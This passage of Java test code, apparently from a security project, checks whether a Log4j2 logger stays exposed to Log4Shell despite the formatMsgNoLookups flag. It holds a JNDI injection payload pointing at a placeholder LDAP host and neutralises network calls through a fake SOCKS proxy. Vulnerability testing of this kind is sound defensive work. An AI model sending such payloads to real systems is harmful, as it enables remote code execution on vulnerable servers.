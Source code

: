 ```java
 * @see "https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html"
 */
public class Log4ShellExposureTestFormatMsgNoLookupsBypass {

    private static final String TEST_PAYLOAD = "${jndi:ldap://donotexists.com/test}";
    private static final String TEST_FAILED_MARKER = "Error looking up JNDI resource";
    private Logger victim;
    private final ByteArrayOutputStream captureStream = new ByteArrayOutputStream();
    private final PrintStream currentSystemOut = System.out;
    private final PrintStream currentSystemErr = System.err;

    @Before
    public void testSuiteSetup() throws Exception {
        //Capture SystemOut and SystemErr
        PrintStream ps = new PrintStream(captureStream);
        System.setOut(ps);
        System.setErr(ps);
        //Set a SOCK nonexistent proxy to prevent any data to be sent out or any call to exit the network
        System.setProperty("proxySet", "true");
        System.setProperty("socksProxyHost", "10.10.10.10");
        System.setProperty("socksProxyPort", "1111");
        //Set a quick socket timeout to speed up the test
        System.setProperty("sun.net.client.defaultConnectTimeout", "2000");
        System.setProperty("sun.net.client.defaultReadTimeout", "2000");
        //Setup the logger
        ConfigurationBuilder<BuiltConfiguration> builder = ConfigurationBuilderFactory.newConfigurationBuilder();
        builder.setStatusLevel(Level.INFO);
        builder.setConfigurationName("DefaultLogger");
        AppenderComponentBuilder appenderBuilder = builder.newAppender("Console", "CONSOLE");
        appenderBuilder.addAttribute("target", ConsoleAppender.Target.SYSTEM_OUT);
        appenderBuilder.add(builder.newLayout("PatternLayout").addAttribute("pattern", "${ctx:InsecureVariable} - %m%n"));
        RootLoggerComponentBuilder rootLogger = builder.newRootLogger(Level.INFO);
        rootLogger.add(builder.newAppenderRef("Console"));
        builder.add(appenderBuilder);
        builder.add(rootLogger);
        //Configurator.reconfigure(builder.build());
        //Use this method is reconfigure(() do not exists in the log4j2 tested version
        Configurator.initialize(builder.build());
        //Enable the security flag
        System.setProperty("log4j2.formatMsgNoLookups", "true");
        //Setup the logger used
        victim = LogManager.getRootLogger();
        //Display execution context
        System.out.printf("LOG4J2 version: %s\n", victim.getClass().getPackage().getImplementationVersion());
        System.out.printf("Java version  : %s\n", System.getProperty("java.version"));
    }

    @After
    public void testSuiteFinalize() throws Exception {
        //Reset SystemOut and SystemErr to original ones
        System.setOut(currentSystemOut);
        System.setErr(currentSystemErr);
        //Remove the SOCK proxy
        System.getProperties().remove("proxySet");
        System.getProperties().remove("socksProxyHost");
        System.getProperties().remove("socksProxyPort");
        //Remove socket timeout
        System.getProperties().remove("sun.net.client.defaultConnectTimeout");
        System.getProperties().remove("sun.net.client.defaultReadTimeout");
```